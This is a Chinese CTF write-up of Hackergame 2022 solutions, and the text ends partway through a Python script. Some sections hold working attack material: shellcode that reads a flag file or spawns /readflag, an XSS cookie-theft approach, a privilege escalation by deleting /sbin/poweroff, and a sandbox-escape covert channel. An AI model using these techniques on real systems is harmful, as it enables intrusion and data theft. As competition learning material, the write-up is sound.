今年总算是有时间完整玩一场 Hackergame 了，开心喵

> 这里写点传到官方仓库的题解没写的碎碎念

- 感谢全体 Staff 的付出喵~ 学到了很多奇奇怪怪的知识，也玩的很开心
- Hackergame 治好了我的精神内耗（确实让人保持了一周的干劲）
- 最后拿了校内第 2 总榜第 14，虽然还是有点小小的遗憾，但想到前两年都是摸了一千多分就没空打了，今年有这成绩还是挺高兴的

那么，下面是题解部分~

<!-- more -->

## 签到

观察提交后 `url` 变化，输入`http://202.38.93.111:12022/?result=2022` 即可

## 猫咪问答喵

很高兴拿了这题一血喵~

1. 中国科学技术大学 NEBULA 战队（USTC NEBULA）是于何时成立的喵？

   Google 搜索 `nebula 战队 成立`，第一条：

   

2. 请问这个 KDE 程序的名字是什么？

   <https://ftp.lug.ustc.edu.cn/> 可以获取到 `lug` 所有活动的资料，据此定位到对应视频

   ~~虽然发音不是很清晰~~，但最后的 `live` 是可以听出来的，观察图片可以辨认出这应该是个视频处理软件，于是谷歌搜索 `live kde linux video`，得到答案 `Kdenlive`

3. Firefox 浏览器能在 Windows 2000 下运行的最后一个大版本号是多少？

   直接搜索 `firefox 浏览器能在 windows 2000` 就可以得到答案 `12`

   

4. 请找出在 Linux 内核 master 分支（torvalds/linux.git）下，首个变动此行为的 commit 的 hash 吧喵！

   在 Linux 的 Github 仓库中搜索 `argc` 并按时间排序，第二页就能找到对应 commit

   

5. 省略若干字，找到猫猫在连接的域名

   根本不用管 `md5` 值，直接搜 `ssh test server`，找六个字母的就可以了

   

6. 网络通定价什么时候开始的喵

   直接搜索 `ustc 网络通 20元` 不难找到一份 2010 年的通知：

   <https://ustcnet.ustc.edu.cn/2015/0127/c11104a119602/page.htm>

   但其实查看这个通知会发现网络通的这一定价和 2003 年的旧通知（网字〔2003〕1 号《关于实行新的网络费用分担办法的通知》）一致，所以需要查找旧通知，在网络信息中心的官方文件 -> 网字文件（<https://ustcnet.ustc.edu.cn/11109/list.htm>）中可以找到

   <https://ustcnet.ustc.edu.cn/2003/0301/c11109a210890/page.htm>

   发现该规定 2003 年 3 月 1 日起实行

## 家目录里的秘密

第一问直接搜索 `flag` 即可


第二问根据提示找到 `rclone` 的配置文件


后面是比较坑的，一开始我以为要找到 host 和 user 连接上 ftp 服务器，后来发现这里的点在于 `rclone` 会对密码进行简单的加密处理，我们上网找个解密脚本处理一下就可以得到 flag



找到这个帖子里的在线 go playground，替换 pass 后解密即可

## HeiLang

```javascript
const parse = (s) =>
  s
    .split("\n")
    .map((s) => {
      let [nums, ans] = s.split("=");
      nums = nums.trim().slice(2, -1).split("|");
      return nums.map((num) => `a[${num}] = ${ans}\n`).join("");
    })
    .join("\n");
```

写一个简易的 HeiLang 赋值语句到 python 的转译脚本即可，这里用的 `Javascript`

用转译出的代码替换原来代码，再执行新的 python 脚本即可得到 flag

## Xcaptcha

用 `Javascript` 脚本计算并模拟点击提交按钮，不能省略模拟提交的步骤，否则会被判超时

```javascript
// 网上抄的 JS 大整数加法，原始出处有点难以考证，这里直接用了
function sumStrings(a, b) {
  var res = "",
    c = 0;
  a = a.split("");
  b = b.split("");
  console.log(a);
  console.log(b);
  while (a.length || b.length || c) {
    c += ~~a.pop() + ~~b.pop();
    res = (c % 10) + res;
    c = c > 9;
  }
  return res.replace(/^0+/, "");
}

// 命名比较随意，直接复制粘贴了
const [a1, b1] = document
  .querySelectorAll("label")[0]
  .innerText.split(" ")[0]
  .split("+");
const [a2, b2] = document
  .querySelectorAll("label")[1]
  .innerText.split(" ")[0]
  .split("+");
const [a3, b3] = document
  .querySelectorAll("label")[2]
  .innerText.split(" ")[0]
  .split("+");

const sum1 = sumStrings(a1, b1);
const sum2 = sumStrings(a2, b2);
const sum3 = sumStrings(a3, b3);

document.querySelectorAll("input")[0].value = sum1;
document.querySelectorAll("input")[1].value = sum2;
document.querySelectorAll("input")[2].value = sum3;

// 模拟点击
document.querySelector("button").click();
```

注意到这里需要元素定位，但是打开提交界面后一秒就会强制跳转走，看不了 DOM 结构

这个问题有很多种解决方法，这里采用点开新界面后控制面板输入：

```javascript
console.log(document.body.innerHtml);
alert(1);
```

通过 `alert` 阻塞脚本执行跳转

当然如果这道题用 Python 做的话是没有这个问题的

## 猜数字

源码的判断逻辑：

```java
var isLess = previous < this.number - 1e-6 / 2;
var isMore = previous > this.number + 1e-6 / 2;

var isPassed = !isLess && !isMore;
```

可以发现它没有用差的绝对值来判断猜测的准确性，而是用了不大于且不小于

如果对浮点数比较熟悉的话，就会知道有这样一个特殊的浮点数 NaN，不大于任何数也不小于任何数（因为它的语义是 Not a Number），而这题解析字符串输入的代码：

```java
var guess = Double.parseDouble(event.asCharacters().getData());
```

只是简单转化出浮点数 `guess`，没有判断 `Double.isNaN()`

所以直接输入 NaN，提交，即可获取 flag

## LaTeX 机器人

卡了最久的一道题，但做出来发现意外的简单

第一问直接谷歌 LaTeX 怎么包含文件即可：

```latex
\input{/flag1}
```

第二问因为有特殊字符，所以需要告诉 LaTeX 把这些特殊字符当成普通字符处理

比赛前几天一直思维定势了，觉得 LaTeX 像别的编程语言一样，这种词法上的东西应该是语言层面约定好的，看了眼服务器脚本也没发现有什么问题，然后就卡住了（

最后一天别的题目都不会做了再回头看这题，结果发现这个居然真的可以自定义。。。（通过 `\catcode` 命令）

最后构造出来的解：

```latex
\catcode`\#=12 \catcode`\_=12 \input{/flag2}
```

`flag{latex_bec_0_m##es_co__#ol_823deef5f5}`

嗯，确实挺 coooooool

## Flag 的痕迹

~~这么大的开源项目，这种东西肯定有人发 issue 的~~

https://github.com/splitbrain/dokuwiki/issues/3421

根据讨论内容：页面 url 后追加 `&do=diff` 即可

## 安全的在线测评

第一问很简单，评测脚本直接给了评测数据的文件位置：

```python
DATA = './data'
...
os.path.join(DATA, 'static.out')
```

所以直接把这个文件读出来输出就可以了，这里就略了（第二问代码兼容第一问）

主要问题是第二问动态数据：

```python
for i in range(N):
    inpaths.append(os.path.join(DATA, f'dynamic{i}.in'))
    outpaths.append(os.path.join(DATA, f'dynamic{i}.out'))

    os.chmod(inpaths[i], 0o700)
    os.chmod(outpaths[i], 0o700)
```

可以发现把文件权限设置为了 `700`，只有所有者才能读取

当时在这里卡了很久，没想到很好的策略，但过了几天再看这道题后，发现第一问的 flag 一开始被我忽略了：

`flag{the_compiler_is_my_eyes_76243fe5d0}`

这个很明显和第一问对不上，第一问我们直接读取文件输出，并没有编译器什么事

那么，这就是第二问的提示了：

虽然我们的程序没有读取文件的权限，但是编译器有：

```python
p = subprocess.run(
    ["gcc", "-w", "-O2", SRC, "-o", BIN],
    stdout=sys.stdout,
    stdin=subprocess.DEVNULL,
    stderr=subprocess.STDOUT
)
```

这里感觉也有点坑人，因为这里允许我们查看编译器的标准输出了，那么很容易想到直接 `include "flag.py"` 来根据编译报错看 flag 等策略，但实际上 `flag.py` 大概长这样：

```python
import os

flag1 = "fake{flag1}"
flag1 = "fake{flag2}"

path1 = "dev/shm/flag1"
path2 = "dev/shm/flag2"

...
# 后面大概是读取 flag 并删除 flag 文件，没再看了

# 关于我是怎么搞到这个文件的，这是个悲伤的故事
# 当时利用评测结果逐个 bit 传输数据才爬了这么多
```

这题预期解和编译器输出并没有什么关系，我在这里又卡了一两天

其实正确答案很容易想到，直接把所有的 `out` 文件都 include 进来，计算它们乘积，判断和标准输入读入的数字是否一致，但是怎么把这些文件 include 进字符串又是个大坑，如果你直接谷歌搜索大概可以找到：

- 这个 StackOverflow 回答：<https://stackoverflow.com/questions/410980/include-a-text-file-in-a-c-program-as-a-char>
  - 高赞第一使用了 `xxd`，显然我们用不了
  - 后面连续几个高赞都需要 C++ 特性，`std::embed` 或者字符串字面量
- 一个 Github 文档：<https://github.com/welchbj/ctf/blob/master/docs/miscellaneous.md>
  - 需要知道包含的字符串的前缀，如 flag

~~当时把整个人都查自闭了~~

但其实答案还是能找到的，就在那个 StackOverflow 问题中，不过 Ta 只有一个赞：



可能因为这个回答是今年才创建的

但这个答案也不能拿来直接用：

- `fileDataSize` 不能在函数外定义，否则会提示不能编译期初始化
- 会提示找不到 `db` 指令，由于我不太懂汇编，不知道 `db` 指令是什么，这里就不解释了

但是稍微改一下就可以了，把 `db` 改成 `byte`，最后代码如下：

```c
#include <assert.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/file.h>
#include <unistd.h>
// 好像有一些头文件没用到，不管了

asm("p0:    .incbin \"data/static.out\"");
asm("end0: .byte 0,0");
asm("p1:    .incbin \"data/dynamic0.out\"");
asm("end1: .byte 0,0");
asm("p2:    .incbin \"data/dynamic1.out\"");
asm("end2: .byte 0,0");
asm("p3:    .incbin \"data/dynamic2.out\"");
asm("end3: .byte 0,0");
asm("p4:    .incbin \"data/dynamic3.out\"");
asm("end4: .byte 0,0");
asm("p5:    .incbin \"data/dynamic4.out\"");
asm("end5: .byte 0,0");

// 第一个是静态测试样例，后面是 5 个动态样例
extern char p0[], p1[], p2[], p3[], p4[], p5[];

int valid(char *p_origin, char *ans) {
    // 拷贝一份 (这个懒得 free 了，别学我)
    char *p = strdup(p_origin);

    // p 是两个整数，换行分割，p 的末尾是换行，去除
    int p_length = strlen(p);
    if (p[p_length - 1] == '\n') {
        p[p_length - 1] = '\0';
    }

    // 先用 \0 分割成两个数字字符串
    char *a1 = p;
    char *a2 = p;
    while (*(a2++) != '\n')
        ;
    *(a2 - 1) = '\0';
    while (*a2 < '0' || *a2 > '9') {
        a2++;
    }

    // 存储乘法结果，先存储 0 到 9，然后转换为字符串形式
    unsigned int tmp_res[512] = {0};

    int l1 = strlen(a1);
    int l2 = strlen(a2);

    for (int i = 0; i < l1; i++) {
        for (int j = 0; j < l2; j++) {
            int index_of_a1 = l1 - i - 1;
            int index_of_a2 = l2 - j - 1;
            unsigned int num_from_a1 = a1[index_of_a1] - '0';
            unsigned int num_from_a2 = a2[index_of_a2] - '0';
            tmp_res[i + j] += num_from_a1 * num_from_a2;
        }
    }

    // 乘法
    for (int i = 0; i < 511; i++) {
        if (tmp_res[i] >= 10) {
            tmp_res[i + 1] += tmp_res[i] / 10;
            tmp_res[i] %= 10;
        }
    }

    // 比较结果与 ans 是否相同
    int l_ans = strlen(ans);
    for (int i = 0; i < l_ans; i++) {
        if (ans[i] - '0' != tmp_res[l_ans - i - 1]) {
            return 0;
        }
    }
    return 1;
}

int main() {
    // 读取六组输出，分别计算乘积，结果与输入相同的，则正确
    char ans[512];
    scanf("%s", ans);

    char *p[6] = {p0, p1, p2, p3, p4, p5};
    for (int i = 0; i < 6; i++) {
        if (valid(p[i], ans)) {
            puts(p[i]);
            return 0;
        }
    }
}
```

最后得到 flag：



做完后我也觉得需要一个 `std:embed`

## 微积分计算小练习

阅读后端代码，发现逻辑是在打开页面之前把 flag 藏到了 `document.cookie` 里，这很显然就是 XSS 攻击了

`bot.py` 中最后打印出的值是：

```python
greeting = driver.execute_script(f"return document.querySelector('#greeting').textContent")
score = driver.execute_script(f"return document.querySelector('#score').textContent")
```

所以我们构造脚本，提前把元素内容改成 `cookie` 值就可以了

姓名输入 ``

随后提交 url 即可获取 flag

## 杯窗鹅影

最近刚把主力环境切换成 WSL，所以一开始没做这道题，但稍微看了看 Wine 之后发现原理很简单：

Wine 能够在 Linux 上执行 Windows 程序的原理是封装了 WinAPI，但与此同时 Wine 并没有禁止 Linux syscall，所以想办法执行 Linux 系统调用即可

谷歌搜索 Wine + Linux syscall 可以得到一串代码：

```c
#include <stdio.h>
#include <windows.h>

unsigned char shellcode[] =
    "......";

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance,
                   LPSTR lpCmdLine, int nShowCmd) {
    LPVOID exec_buffer = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT,
                                      PAGE_EXECUTE_READWRITE);
    void (*pcode)() = (void (*)())exec_buffer;

    memcpy(exec_buffer, shellcode, sizeof(shellcode));
    pcode();

    return 0;
}
```

两问只要根据需要替换 `shellcode` 就可以了

第一问搜索 read file shellcode



把搜索结果里的 shellcode 的表示路径的 ASCII 码替换即可：

```c
unsigned char shellcode[] =
    "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66"
    "\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f"
    "\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0"
    "\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x66"
    "\x6c\x61\x67\x31\x00\x00\x00\x00\x00\x41";
```

第二问搜索 execve shellcode，同理替换表示路径的部分即可：

```c
unsigned char shellcode[] = "\x31\xc0\x50\x48\x8b\x14\x24\xeb\x10\x54"
                            "\x78\x06\x5e\x5f\xb0\x3b\x0f\x05\x59\x5b"
                            "\x40\xb0\x0b\xcd\x80\xe8\xeb\xff\xff\xff"
                            "/readflag";
```

按照题目说明编译，提交就可以过了

## 蒙特卡罗轮盘赌

显然切入点在 `rand()` 函数，谷歌搜索 C rand hack ctf（别问这个为什么要搜，问就是年轻人的第一场 CTF

发现当 `srand` 的参数和时间有关时，可以考虑本地枚举附近的时间，找到可能的随机种子

（刚好这题也允许我们失败两次，容错还是比较大的）

```c
srand((unsigned)time() + clock())
```

我们编个测试程序看看这两个值的范围

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

double rand01() { return (double)rand() / RAND_MAX; }

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    long int _time = time(0);
    long int _clock = clock();

    printf("%ld %ld", _time, _clock);

    return 0;
}
```

输出：

```shell
❯ ./time
1666669107 635%
❯ ./time
1666669108 617%
❯ ./time
1666669108 525%
❯ ./time
1666669109 802%
```

第一个是标准时间，第二个是随机在 500 到 1000（大致范围）内的一个整数

所以编写程序枚举：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

double rand01() { return (double)rand() / RAND_MAX; }

int main() {
    unsigned long cur_time = 1666606660;
    char guess[20] = "3.14359";

    for (int c = 400; c <= 1000; c++) {

        srand(cur_time + c);
        char target[20];
        int M = 0;
        int N = 400000;
        for (int j = 0; j < N; j++) {
            double x = rand01();
            double y = rand01();
            if (x * x + y * y < 1)
                M++;
        }
        double pi = (double)M / N * 4;
        sprintf(target, "%1.5f", pi);
        if (strcmp(target, guess) == 0) {
            printf("%ld\n", cur_time + c);
        }
    }

    return 0;
}
```

（需要 cur_time 替换成当前时间，guess 替换成第一次失败后提示的数字后再编译）

跑出可能的随机数种子后，替换源程序里的 `srand()` 种子，编译运行，即可得到后续 $\pi$ 模拟结果

## 不可加密的异世界

比较考验密码学知识的一道题，但是思维量不大

~~Yet Another 猫咪问答~~

第一二问利用好 CBC 模式的初始向量，第三问知道 DES 加密的弱密码就可以解决

CBC 模式网上有很多讲解的帖子了，这里不再附了，

第一问代码写的不太好，就不放了

第二问交互代码：

```python
KEY_PREFIX = '00' * 8
MY_PASS = ''
BLOCKSIZE = 8 * 2
# 简化问题：DES, CBC，每个块 8 字节，一共 80 字节，每个字节需要用两个 hex 表示
# 密钥前 8 字节是密钥，后 8 字节是 IV
def GET_IV(block_num: int, ciphertext=None):
    """
    这个函数用于给定当前块的下标和密文，生成对应的 IV
    """
    plaintext = MY_PASS[block_num * BLOCKSIZE: (block_num + 1) * BLOCKSIZE]
    if ciphertext is None:
        ciphertext = plaintext
    magic_box = Magic_box('DES', 'ECB', bytes.fromhex(KEY_PREFIX))
    plain_text_after_xor = ''.join(['%02x' % c for c in magic_box.auto_dec(bytes.fromhex(ciphertext))])
    prev_ciphertext = ''.join(hex(int(c1, 16) ^ int(c2, 16))[2:] for c1, c2 in zip(plaintext, plain_text_after_xor))
    if block_num == 0:
        return prev_ciphertext
    else:
        return GET_IV(block_num - 1, prev_ciphertext)

CMD = "nc 202.38.93.111 10110".split()
TOKEN = "1661:MEUCIQDQiJw0B35uor5gx5LtGcc4Fquzm+6hzQdaXy42Ms1EUAIgD5bKtJ7/MV7hkTcP9oIQ3WMNTK+Hist+/qfEcTPk0Ho="

import subprocess as sp

p = sp.Popen(CMD, stdin=sp.PIPE, stdout=sp.PIPE, stderr=sp.PIPE)

def p_write(s: str):
    p.stdin.write((s + "\n").encode("utf-8"))
    p.stdin.flush()
    sleep(2)

p_write(TOKEN)
p_write('2')
p_write('whatever')
p_write('DES')
p_write('CBC')

while line := p.stdout.readline():
    line = line.decode()
    if 'you_pass' in line:
        MY_PASS = line[31:191]
        break

for i in range(10):
    keys = KEY_PREFIX + GET_IV(i)
    p_write(keys)


while line := p.stdout.readline():
    print(line.decode())
```

第三问实际上就是要求加密两次后还是原文，搜索这个信息 + DES，发现 DES 存在这样的弱密钥

- 0x0101010101010101

- 0xFEFEFEFEFEFEFEFE

- 0xE0E0E0E0F1F1F1F1

- 0x1F1F1F1F0E0E0E0E

- 0x0000000000000000

- 0xFFFFFFFFFFFFFFFF

- 0xE1E1E1E1F0F0F0F0

- 0x1E1E1E1E0F0F0F0F

在 ECB 模式下（也就是明文块直接加密成密文块），如上的密钥会使得密文再次加密可以还原成明文

只需要找到一个字符串，crc128 是如上的弱密钥中的一个就可以了

可以使用 `reveng` 这样的工具计算，也可以直接构造：

`ffffffffffffffffffffffffffffffff`

## 光与影

精髓在于乱搞


先把文件都搞到本地方便用 VSCode 的 Live Server 插件观察热更新结果



观察后发现就第一个文件最长，应该是渲染逻辑

乱改一些参数（这个确实需要摸索）后发现：

```c
float sceneSDF(vec3 p, out vec3 pColor) {
    pColor = vec3(1.0, 1.0, 1.0);

    vec4 pH = mk_homo(p);
    vec4 pTO = mk_trans(35.0, -5.0, -20.0) * mk_scale(1.5, 1.5, 1.0) * pH;

    float t1 = t1SDF(pTO.xyz);
    float t2 = t2SDF((mk_trans(-45.0, 0.0, 0.0) * pTO).xyz);
    float t3 = t3SDF((mk_trans(-80.0, 0.0, 0.0) * pTO).xyz);
    float t4 = t4SDF((mk_trans(-106.0, 0.0, 0.0) * pTO).xyz);
    float t5 = t5SDF(p - vec3(36.0, 10.0, 15.0), vec3(30.0, 5.0, 5.0), 2.0);

    float tmin = min(min(min(min(t1, t2), t3), t4), t5);
    return tmin;
}
```

这里的 t5 很奇怪，怀疑是挡住 flag 的白色长块

改写这部分：

```c
float sceneSDF(vec3 p, out vec3 pColor) {
    pColor = vec3(1.0, 1.0, 1.0);

    vec4 pH = mk_homo(p);
    vec4 pTO = mk_trans(35.0, -5.0, -20.0) * mk_scale(1.5, 1.5, 1.0) * pH;

    float t1 = t1SDF(pTO.xyz);
    float t2 = t2SDF((mk_trans(-45.0, 0.0, 0.0) * pTO).xyz);
    float t3 = t3SDF((mk_trans(-80.0, 0.0, 0.0) * pTO).xyz);
    float t4 = t4SDF((mk_trans(-106.0, 0.0, 0.0) * pTO).xyz);

    float tmin = min(min(min(t1, t2), t3), t4);
    return tmin;
}
```

去掉 t5 之后显示出了正确的 flag


## 片上系统

很考验耐心的一道题，第一题 `sdcard_data_pulseview.zip` 压缩包打开能在 metadata 里看到 sigrok，所以我们下载这个软件，把 zip 后缀名改成 sigrok 能识别的 `sr` 后就可以打开波形文件了

sigrok 内置了 SD 卡的 SPI 模式的信号的自动识别，所以调好参数（这个忘截图了，还有点难调），使得波形图上有 `66 6c ...` （flag 对应的 ASCII 码），我们就知道此时数据就是 SD 卡实际传输的数据了

把这个数据全部 dump 下来，然后搜索 `66 6c`，能找到两处，第一处就是 flag1

第二问比较麻烦，很容易想到把第一问的 dump 文件整理一下然后：

```shell
root@iZwz99oibf60za5mino30dZ ~/n/m/m/p/riscv# riscv64-linux-gnu-as riscv.tmp
root@iZwz99oibf60za5mino30dZ ~/n/m/m/p/riscv# riscv64-linux-gnu-objdump -D > asm.txt
```

（这里感谢 Vlab 提供的预装好的 riscv 交叉编译环境）

交叉编译再还原，得到 asm 汇编。但实际上，还有些干扰信号需要去除：



这样的 `ffff ffff .... fffe` 序列会干扰反汇编器的识别，一共有三处这个序列

所以在整理机器码的时候要注意特别处理这种序列，使得去除后前后汇编连贯，整理后阅读引导扇区的代码：


可以知道我们的操作系统被载入了 `0x20001000`



而实际阅读代码后，可以把操作系统的入口定位在这里，所以 `0x20001000` 对应 `0x202`，这样我们就可以知道所有指令和数据的实际地址，下面我们从 flag2 的数据入手，观察什么时候输出了 flag2


（`0x67a` 是 flag2 数据，ASCII 对应的是 `flag{}`）

`0x67a - 0x202 = 0x479`



于是锁定这一段，中间的输出就是我们希望寻找的花括号内容

发现三次调用了 `jal 0x21a`，阅读 `0x21a` 代码：


发现是把 `a0` 用十六进制形式输出

三次调用 `0x21a` 前，`a0` 分别是 `0x20001018, (0xdeadbeef ^ 0x2000106c), 224`

把三个数字转换成十六进制表示，拼接起来就是最后的 flag

## 传达不到的文件

很愉快的秒了

查看 init 脚本：

```shell
/ # cat etc/init.d/rcS
#! /bin/sh

mkdir -p /tmp
mount -t proc none /proc
mount -t sysfs none /sys
mount -t debugfs none /sys/kernel/debug
mount -t devtmpfs devtmpfs /dev
mount -t tmpfs none /tmp
mdev -s

echo 1 > /proc/sys/kernel/kptr_restrict
echo 1 > /proc/sys/kernel/dmesg_restrict
chmod 400 /proc/kallsyms

chown 0:0 /chall
chmod 04111 /chall

cat /dev/sda > /flag2
chown 1337:1337 /flag2
chmod 0400 /flag2

setsid /bin/cttyhack setuidgid 1000 /bin/sh

umount /proc
umount /tmp


poweroff -d 0  -f
```

最后一条指令 `poweroff -d 0 -f` 用来在我们关闭 shell 后退出这个有 root 权限的 init 脚本

但是很遗憾，我们有 `/sbin/poweroff` 的所有权，所以：

```shell
rm /sbin/poweroff
```

之后按 CTRL + D 退出我们这个 nobody 的 shell，就有 root 权限了，之后

```shell
cat flag2
```

得到：

```
flag{D0_n0t_O0o0pen_me__unles5_u_tr4aced_my_p4th_a3c70e3e68}
```

显然是非预期了（

```shell
vi chall
```

打开编辑器，搜索 `flag` 即可得到第一个 flag：


虽然看了 flag 我还是不知道怎么用 trace 得到这两问的 flag 的说（）

## 看不见的彼方

概括一下就是在 `chroot(2)` 和 `seccomp(2)` 的限制下实现进程间通信

Socket 虽然被 ban 了，但进程间通信还是有别的方式的，比如使用信号：

先确定 Bob 的 pid（这样 Alice 才可以给它发信号）

```c
#include <stdio.h>
#include <unistd.h>

int main() {
    int pid = getpid();
    printf("%d", pid);
    return 0;
}
```

查看网页输出，为 9

于是 Alice:

```c
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *getfileall(char *fname) {
    FILE *fp;
    char *str;
    char txt[1000];
    int filesize;

    if ((fp = fopen(fname, "r")) == NULL) {
        return NULL;
    }

    fseek(fp, 0, SEEK_END);
    filesize = ftell(fp);

    str = (char *)malloc(filesize);

    str[0] = 0;

    rewind(fp);

    while ((fgets(txt, 1000, fp)) != NULL) {
        strcat(str, txt);
    }
    fclose(fp);
    return str;
}

int main() {
    char *p = getfileall("/secret");
    unsigned target_pid = 9;
    // wait for b?
    sleep(1);
    for (int i = 0; i < 64; i++) {
        for (int j = 0; j < 8; j++) {
            // 从每个字节的低位开始
            if (p[i] & (1 << j)) {
                // 22: SIGURG
                kill(target_pid, 22);
            } else {
                // 17: SIGCONT
                kill(target_pid, 17);
            }
            usleep(10 * 1000);
        }
    }
    return 0;
}
```

Bob:

```c
#include <ctype.h>
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int count = 0;
char buffer[512];

typedef void handler_t(int);

// 把信号处理函数更改成我们自定义的函数
// 来源：CSAPP Shell Lab
handler_t *Signal(int signum, handler_t *handler) {
    struct sigaction action;
    struct sigaction old_action;

    action.sa_handler = handler;
    sigemptyset(&action.sa_mask);
    action.sa_flags = SA_RESTART;

    sigaction(signum, &action, &old_action);
    return (old_action.sa_handler);
}

void recv(int signum) {
    if (signum == 22) {
        buffer[count++] = 1;
    } else {
        buffer[count++] = 0;
    }
    if (count == 512) {
        // collect data and print out
        char res[65] = {};
        for (int i = 0; i < 64; i++) {
            for (int j = 0; j < 8; j++) {
                // 从每个字节的低位开始
                int cur = i * 8 + j;
                if (buffer[cur]) {
                    res[i] += (1 << j);
                }
            }
        }
        printf("%s", res);
        exit(0);
    }
}

int main() {
    Signal(22, recv);
    Signal(17, recv);

    while (1)
        ;
}
```

随便选两个信号，约定为 0，1，即可逐 bit 发送信息

Alice 每发完一个 bit 休息一会，确保 Bob 接收到，usleep 可以休眠指定毫秒

```c
usleep(10 * 1000);
```

## 量子藏宝图

第一问阅读相关协议的论文/维基/科普文章大概就能理清楚，这里不再赘述

制备基底取全 `x`，量子态取全 `0`，随后答案就是 '0' \* 测量基底中 0 的数目

第二问会发一张图，和已知部分明文 `flag{...}`

根据提示转换出 `flag` 的 ASCII 码，从第 127 条横线开始往上对比，大概就能发现规律：

**从上往下**，逐行看，如果该行对比上一行，竖线的位置有前进，那么这一行对应的数字就是 1，否则为 0


示例：如上图，对应位 `10110011`

翻译完后转换成对应字符串就是 flag

## 《关于 RoboGame 的轮子永远调不准速度这件事》

很唬人的题。。。但做起来感觉挺水的，如果~~没那么多 homo 的描述~~题号靠前应该很多人都能做出来

整理下代码就基本都懂了：

```c
int8_t init_rand = 7;
int8_t speedtb[8] = {0x11, 0x45, 0x14, 0x19, 0x81, 0x24, 0x00, 0x19};
int8_t rand() {
    init_rand += 1;
    init_rand &= 7;
    return speedtb[init_rand];
}
```

这里的伪随机数生成器生成 `speedtb` 数组的循环，所以我们把每次写入的长度设为 8 就不会有随机数干扰了

```plaintext
w 1 8 17 69 20 25 129 36 0 25
w 4 8 17 69 20 25 129 36 0 25
w 7 8 17 69 20 25 129 36 0 25
```

之后会提示 flag 就在轮子的转速里，逐个读取轮子转速即可

虽然看起来我们只能读取前 10 个轮子的数据，但实际上：

```c
uint8_t str_to_uint8(const char *s) {
    uint8_t v = 0;
    while (*s) {
        uint8_t digit = *s++ - '0';
        v = v * 10 + digit;
    }
    return v;
}


// 端口字符串（10 进制）转 8 位表示
int8_t port_to_int8(char *port) {
    if (port[1] != 0 && port[1] != ' ') {
        // no more than 1 digit.
        return -1;
    }
    return (int8_t)str_to_uint8(port);
}
```

这里只是判断端口只能是一位字符，但并没有要求该字符是数字

所以沿着 `'9'` 的 ASCII 码往后取字符作为端口号读取即可

## 企鹅拼盘



先放一只可爱的企鹅

这题源代码要看懂并不难，原理就是根据 `chals` 文件夹下的 json 文件获取每个分支对应的可能的操作，然后每次根据输入的某个比特位具体决定进入的分支

第一问枚举可得 1000，第二问因为只有 16 个比特也可以写个程序暴力跑，这里放个代码：

```python
import json

ans = [[0, 1, 2, 3], [4, 5, 6, 7], [8, 9, 10, 11], [12, 13, 14, 15]]

class Board:
    def __init__(self):
        self.b = [[i*4+j for j in range(4)] for i in range(4)]

    def _blkpos(self):
        for i in range(4):
            for j in range(4):
                if self.b[i][j] == 15:
                    return (i, j)

    def reset(self):
        for i in range(4):
            for j in range(4):
                self.b[i][j] = i * 4 + j

    def move(self, moves):
        for m in moves:
            i, j = self._blkpos()
            if m == 'L':
                self.b[i][j] = self.b[i][j-1]
                self.b[i][j-1] = 15
            elif m == 'R':
                self.b[i][j] = self.b[i][j+1]
                self.b[i][j+1] = 15
            elif m == 'U':
                self.b[i][j] = self.b[i-1][j]
                self.b[i-1][j] = 15
            else:
                self.b[i][j] = self.b[i+1][j]
                self.b[i+1][j] = 15

    def __bool__(self):
        return self.b != ans


class BPApp():
    board = Board()
    pc = 0

    def __init__(self, inbits, bitlength=1, branches=[[0, '', 'U']], ):
        self.bitlength = bitlength
        self.branches = branches
        self.inbits = inbits

    def run(self):
        self.board.reset()
        for branch in self.branches[:256]:
            self.board.move(branch[1] if self.inbits[branch[0]] else branch[2])
        return self.board

from itertools import product as product

filename = f'chals/b{16}{"_obf" if True else ""}.json'
with open(filename) as f:
    branches = json.load(f)
for i in product([0,1], repeat=16):
    if BPApp(i, 16, branches).run():
        print(i)
```

至于第三问，64 比特不再适合枚举，所以需要观察数据特点

这个时候前面 4 比特和 16 比特的数据可以给我们很好的参考，不难发现数据中总是 16 个数一组



所以我们 16 个一组枚举，因为只有 4 个数，这一组只有 16 种选取可能



以 4 比特的示例为例，跑出来每一组都只有一个与组内其他元素不同

（因为数码问题实际上对应一个偶置换群，上面图里的结果展示做了点分解，代码~~丢了~~就不放上来了）

也就是说，将操作 16 个一组分组，对应 4 个数字，$2^4=16$ 种选取，每一组只有一种选取能通向打乱的结局，其他的普通选取组合在一起不会打乱（很好奇为什么如果只有一些组选取特殊值的话，最后仍然不会打乱，不过没研究出来）

不管怎么说，接下来收集一下每一组的特殊选取对应需要的比特位值就可以了，完整代码：

```python
import json
from itertools import product

class Board:
    def __init__(self):
        self.b = [[i*4+j for j in range(4)] for i in range(4)]

    def _blkpos(self):
        for i in range(4):
            for j in range(4):
                if self.b[i][j] == 15:
                    return (i, j)

    def reset(self):
        for i in range(4):
            for j in range(4):
                self.b[i][j] = i * 4 + j

    def move(self, moves):
        for m in moves:
            i, j = self._blkpos()
            if m == 'L':
                self.b[i][j] = self.b[i][j-1]
                self.b[i][j-1] = 15
            elif m == 'R':
                self.b[i][j] = self.b[i][j+1]
                self.b[i][j+1] = 15
            elif m == 'U':
                self.b[i][j] = self.b[i-1][j]
                self.b[i-1][j] = 15
            else:
                self.b[i][j] = self.b[i+1][j]
                self.b[i+1][j] = 15

def move(s: str):
    board = Board()
    board.move(s)
    return str(board.b)

answers = [0 for _ in range(64)]

